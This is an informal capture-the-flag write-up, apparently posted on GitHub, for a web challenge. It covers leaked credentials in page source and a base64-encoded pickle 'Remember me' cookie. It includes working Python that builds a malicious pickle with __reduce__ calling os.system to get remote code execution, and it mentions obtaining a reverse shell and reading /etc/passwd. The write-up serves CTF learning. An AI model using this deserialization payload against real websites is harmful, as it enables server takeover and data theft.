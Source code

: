 
Challenge Description:
We have noticed some weird actions on our website , we think that our passwd file has been compromised , can you make sure that it is secure

Step 1:
when you open the chakenge link you will see a login page i try to do a sqli didn't work then 
Step 2:
i open the page sourse i found a username and password 
![image](https://github.com/user-attachments/assets/47456439-1562-4c0a-b120-66badd4f3268)
step 3:
whe i login there is nothing useful i try bunch of thing like dir fuzzing 

step4:
 i notice there is a Remember me button when i cheaked it  there is new cookie apper after same search i found that cookie is a pickle serialization

step 5: 
i try to deserialize i try to decode as base64 but the apper in a unreadable text 
![image](https://github.com/user-attachments/assets/99a6ae69-8641-46b6-ab96-a843d92f77a7)

step 6:
i try use code i found in the internet but the same thing after same deging i found why the apper in unredable text i write this code to deserialize

```
import pickle
import base64

# Define the class `usr` (or import it if it's defined elsewhere)
class usr:
    def __init__(self, username, password):
       pass
    def __repr__(self):
        return f"usr(username='{self.username}', password='{self.password}')"
cookie = "yourcookie"

# Decode the base64 encoded string
decoded_cookie = base64.b64decode(cookie)

# Deserialize using pickle
deserialized_data = pickle.loads(decoded_cookie)

print(deserialized_data)
```
the output of this code be like this ```usr(username='test', password='test')```

step 7:
Then i write code to make my own serializa cookie i write this code 
```
import pickle
import base64
import subprocess
import os

class RCE(object):
    def __reduce__(self):
        cmd = 'Here can put any command you want '
        return os.system, (cmd,)

class usr(object):
    def __init__(self, username, password):
        self.username = username
        self.password = password

if __name__ == '__main__':
    user = usr(username=RCE(), password=RCE())

    pickled = pickle.dumps(user)
    
    encoded = base64.b64encode(pickled)
    print(encoded)
    encoded_urlsafe = base64.urlsafe_b64encode(pickled)
    print(encoded_urlsafe)
```
Then i make a rev shell then after genrate the cookie change it with cookie in the website 
after getting the rev shell i try to search to found the flag but notheing there called flag.txt samething like that after a reread the Description i notice i will found in the /etc/passwd file 

